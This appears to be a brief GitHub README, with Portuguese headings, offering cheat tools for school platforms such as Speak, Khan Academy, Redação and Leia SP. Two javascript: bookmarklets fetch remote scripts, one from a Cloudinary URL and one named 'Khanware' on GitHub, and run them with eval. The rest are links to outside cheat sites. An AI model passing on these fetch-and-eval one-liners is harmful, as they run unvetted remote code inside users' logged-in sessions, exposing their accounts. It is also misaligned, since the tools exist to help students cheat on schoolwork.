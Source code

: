 # sammak3rdb

SPEAK:

javascript:fetch(`https://res.cloudinary.com/dq36xqdoe/raw/upload/v${Math.floor(Math.random() * 1000000)}/main_oqidn5.js`).then(r => r.text()).then(r => eval(r))

ou

https://speakify.cupiditys.lol/

ATIVIDADES:

https://doritus.mmrcoss.tech/

ou

https://taskitos.cupiditys.lol/

KHAN:

javascript:fetch("https://raw.githubusercontent.com/Niximkk/Khanware/refs/heads/main/Khanware.js").then(t=>t.text()).then(eval);

REDAÇÃO:

https://redacao.cupiditys.lol/

LEIA SP:

https://leiasp.cupiditys.lol/


